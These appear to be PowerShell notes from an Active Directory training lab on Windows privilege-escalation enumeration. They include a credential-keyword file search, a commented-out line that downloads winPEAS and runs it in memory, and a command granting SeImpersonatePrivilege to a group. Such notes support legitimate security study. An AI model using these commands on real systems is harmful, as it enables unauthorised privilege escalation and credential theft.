 # AD Lab 1

## Enumerate user account details

Get-LocalUser #Get-LocalUser -Name \* | Select \* Get-LocalGroup Get-LocalGroupMember -name "ITGroup"

Get-ACL "C:\Users\Administrator" | Format-List

whoami /priv

$cuaccess = \[System.Security.Principal.WindowsIdentity]::GetCurrent() $cuprivilege=New-Object System.Security.Principal.WindowsPrincipal($cuaccess) $cuprivilege.IsInRole(\[System.Security.Principal.WindowsBuiltInRole]::Administrator)

## Understand how to check the defenses

## in CMD

\#sc query windefend

## Get-Service -Name _defence_

Get-Service -Name \*D

Get-MpPreference #Get-MpComputerStatus #Get-MpThreatCatalog

## Enumerate system information

Get-ComputerInfo Get-PSDrive -PSProvider FileSystem | Select-Object Name,Root #Get-ChildItem -Path C:\ -Recurse -Directory -Force -ErrorAction SilentlyContinue |

## Where-Object { $\_.FullName -notlike "C:\Windows\*" } |

## Select-Object FullName

## Checking for possible file content that could be useful for us

\#Get-ChildItem -Filter \*.txt -Path C:\ -Recurse -ErrorAction SilentlyContinue | Select-String "credentials"

## Enumerate user account details

Get-LocalGroupMember -Name ITGroup

net user "Cassandra Bell"

## Learn how to check the Registry

<#

$url="https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany\_ofs.exe"

$wp=\[System.Reflection.Assembly]::Load(\[byte\[]]\(Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)) \[winPEAS.Program]::Main("")

$folder=Read-Host "Folder" $user=Read-Host "Userid" $permission=(Get-ACL $folder).Access | ?{IdentityReference -match $user} | Select IdentityReference,FileSystemRights if ($permission) { $permission | % {Write-Host "$($_.IdentityReference) has '$($_.FileSystemRights)' rights on folder $Folder"} } else { Write-Host "$user doesn't have any permissions on $Folder" }

\#>

## One extra help

Install-Module 'Carbon' -AllowClobber Import-Module carbon Grant-CPrivilege -Identity ITGroup -Privilege SeImpersonatePrivilege Get-CPrivilege ITGroup
